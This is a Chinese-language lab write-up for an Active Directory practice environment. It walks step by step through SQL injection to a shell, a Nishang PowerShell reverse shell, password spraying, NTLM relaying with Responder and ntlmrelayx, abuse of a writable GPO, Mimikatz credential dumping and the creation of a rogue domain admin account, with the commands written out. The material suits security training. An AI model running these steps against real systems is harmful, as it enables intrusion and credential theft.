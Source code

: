 # lkylabs v1
这是 lkys37en 的 Active Directory 实验平台的第一版writeup。它包含网络枚举，域枚举，中继和 滥用安全控件配置/错误配置。

##### 工具
* Empire
* Powershell
* Responder
* Bloodhound
* Powerview
* Mimikatz
* Sqlmap
* Nmap

## 网络枚举
```powershell
nmap 10.7.12.11 10.7.12.12 10.7.12.13
```
## 获得一个落脚点
sqlmap

在 WEB01 10.7.12.12 中存在一个sql注入可获得一个系统shell。
在 os-shell 中， 使用 oneliner ninshang中 `Invoke-PowerShellTcp.ps1`获得一个shell。

## 获取一个域用户
使用 `net users /domain` 命令获取域用户的列表。

## 可选方案：password spraying
<https://www.youtube.com/watch?v=hBvrC4t2hn8> 获得密码列表。
<https://github.com/asciimoo/exrex>

```powershell
python exrex.py "(Spring|Winter|Autumn|Fall|Summer)(20)1(78)!" > passwords.txt


msfconsole auxiliary/scanner/http/owa_login set pass_file passwords.txt set user_file usernames.txt set domain set rhost 10.7.12.10
```

## 域枚举
Bloodhound Powerview

## 文件共享枚举
```powershell
Powerview net view \fs01 dir \fs01
```    
枚举文件共享，以sqladmin的身份执行 `dir \FS01.lab.local` 找出 \FS01.lab.local\Groupdata。你也可以使用`net view \fs01`。

文件共享中有一个vpn文件，我们可以使用它打开一个通往实验系统内层的L2隧道，其子网为 `10.8.13.0/24`。

## 中继
Responder ntlmrelay CME?

启动responder，捕获可以中继的netntlmv2哈希值。responder会选择两个用户 `responder -I tap0 -wrf`。

列出目标主机，如果你检查两个被列出的用户的权限，他们应该是 `WS05`。

使用 ntlmrelay 来中继哈希值，然后运行 `nishang powershell oneliner.` 使一个listener就绪。

```powershell
ntlmrelayx.py -tf targets.txt -c 'powershell.exe blabla oneliner'
```

当哈希被中继的时候，就会在目标主机上生成一个shel(lab\DPayne)。

## GPO 枚举
powerview

使用 `Get-NetGPOGroup`  枚举其GPO, 可以获得一个叫做 MailServer-Config 的GPO, 这个GPO很有意思。

将这个成员的SID转换成域名。
```Powershell
Convert-SidToName S-1-5-21-1704012399-894155344-4184019992-1154
```

它将解析为 `BUILTIN\Administrators` ，进一步枚举GPO, 包括 MailServer-Config。
```powershell
Get-NetGPO -DisplayName MailServer-Config | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}
```

将显示 Server Admins 对这个GPO有写权限。

```powershell
ActiveDirectoryRights : CreateChild, DeleteChild, ReadProperty, WriteProperty, GenericExecute
```
我们可以看到 Server Admins 组对这个GPO有修改权限。现在来基于这个GPO的GUID反过来找到哪些机器应用了这个GPO。
```Powershell
Get-NetOU -GUID "{2259E5B0-3B49-4704-98BB-5A9581B54E8E}" | %{Get-NetComputer -ADSpath $_}
```
结果只有 `MX01.lab.local` 应用了这个GPO, 咱们使用这个命令来看看这个GPO本身的信息。

```powershell
type "\\lab.local\sysvol\lab.local\Policies\{2259E5B0-3B49-4704-98BB-5A9581B54E8E}\MACHINE\Preferences\Groups\Groups.xml"
```
显然这个GPO向MX01的内置管理员组中添加了一个组。然后这个可以被修改为添加Server admins组。

我们使用 `Invoke-GpUpdate -Computer MX01 -Force` 为一台特定的机器打开这个GPO。
 
 一会儿之后，这个GPO应该被推送到MX01， 并且"Server admins"会被授予本地管理员权限。然后就有可能使用WinRM或者其他技巧在这个box上创建一个shell。
 
 ## 获得域管理员
 Mimikatz
 
现在，我们运行mimikatz来获取这个主机的所有凭证。这将获得BDavis的凭证,他是一个高权限的服务管理员，在在这个主机上导入Powerview, 产生一个BDavis的shell, 在BOX01上运行Mimikatz，然后发现另外一个用户和他的明文密码。这个用户是域管理员，所以，再一个shell（ 这里有一个替代方案是使用令牌模拟）。继续将自己添加为域中的用户并将自己添加到域中。
```powershell
net user chryzsh password  /add /domain 
net group“Domain Admins”/add chryzsh /domain 
net group“Remote Desktop Users”/add lab\chryzsh /domain
```